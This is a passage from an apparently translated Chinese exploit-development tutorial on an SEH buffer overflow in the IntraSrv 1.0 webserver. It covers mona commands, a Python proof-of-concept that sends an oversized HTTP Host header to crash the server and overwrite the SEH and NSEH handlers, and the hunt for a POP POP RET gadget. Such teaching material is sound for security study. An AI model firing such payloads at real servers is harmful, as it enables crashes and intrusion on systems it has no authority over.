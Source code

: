 ![](img/b57fa6d899b2827ebfd86a99a5897fd9.png)

然后我们可以运行！mona findmsp 命令查找循环模式的实例(也称为我们的 Metasploit 模式)。注意:为了能够运行 findmsp 命令，您必须使应用程序崩溃(在本例中为 IntraSrv)。我们可以看到寄存器被我们的循环模式覆盖。

![](img/9d8d3eb0a2affb112e4fbb11675b870e.png)

现在我们知道了 SEH 和 NSEH 处理程序的位置，我们可以覆盖它们:

```
#!/usr/bin/python

import socket
from struct import *

victim_host = "10.0.2.15"
victim_port = 80

exploit_payload = "A" * 1553
exploit_payload += "B" * 4
exploit_payload += "C" * 4
exploit_payload += "D" * (2000 - len(exploit_payload))

http_request  = "HEAD / HTTP/1.1\r\n"
http_request += "Host:" + exploit_payload + "\r\n"
http_request += "User-Agent: firefox \r\n"
http_request += "If-Modified-Since: Wed \r\n\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

try:
	print("[*] Intrasrv webserver 1.0 SEH overflow POC\n")
	expl.connect((victim_host, victim_port))
	print("[*] Establishing a connection to the vicitm")
	expl.send(http_request)
	print("[*] Sending the payload")
	expl.close()
except:
	print("[!] Exploit failed to send")
```

我不完全确定为什么 Fu11pwn 在覆盖了 SEH 和 NSEH 处理程序后，用额外的 439 个“D”字符填充缓冲区…

此时我们要用“！mona seh -n "命令来定位一个 POP POP RET 序列，以逃离 seh 链并获得我们的外壳代码。不幸的是，没有没有空字节的指针。在所有 POP POP RET 小工具中包含空字节是对 SEH 溢出攻击的常见防御。然而，根据 Fullpwnops 的说法，即使使用空字节，攻击有时仍然有效(fu11pwnops.com)。
